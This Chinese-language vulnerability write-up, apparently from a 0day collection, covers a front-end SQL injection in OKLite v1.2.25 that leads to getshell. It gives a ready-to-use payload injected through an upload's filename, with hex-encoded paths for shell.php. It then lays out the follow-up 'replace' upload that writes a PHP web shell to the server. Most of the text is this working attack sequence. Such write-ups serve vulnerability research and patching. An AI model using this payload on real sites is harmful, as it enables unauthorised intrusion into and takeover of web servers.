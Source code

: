 # OKLite v1.2.25 SQL 注入导致 getshell(前台)

> 原文：[http://book.iwonder.run/0day/OKLite/sql.html](http://book.iwonder.run/0day/OKLite/sql.html)

## 一、漏洞简介

这个漏洞在 2017 年在 PHPOK 当中就被畅师傅就被发现了。PHPOK 系统被修复了，但是在 OKLite 当中还存在。

## 二、漏洞影响

OKLite v1.2.25 版本

## 三、复现过程

地址：[http://www.0-sec.org/index.php?id=message](http://www.0-sec.org/index.php?id=message)

在线留言处上传一个图片并抓包，把文件名修改为：

```
1','pf3qm0js3gb2s5f33r7lf14vl3','30'),('1',0x7265732f3230313931302f30342f,'shell.jpg','jpg',0x7265732f3230313931302f30352f7368656c6c2e706870,'1570161575','abc 
```

![image](img/d991438ef3ad5be89d865dfe1261173a.png)

上传成功之后会返回图片的 id 和保存的路径：

![image](img/d65a3541987b5c5aca115f16d34cbd15.png)

再次上传一个图片，把地址中的 save 改成 replace，添加一个参数名为`oldid`，值为图片的 id + 1。

图片的内容改为恶意的 php 代码：

![image](img/65014c3c1a44b34d64aa26a966e287bc.png)

上传完成之后可在`res\201910\05`目录下生成一个 shell.php

![image](img/b45995066e3b2d83e1ae918a04f1f877.png)

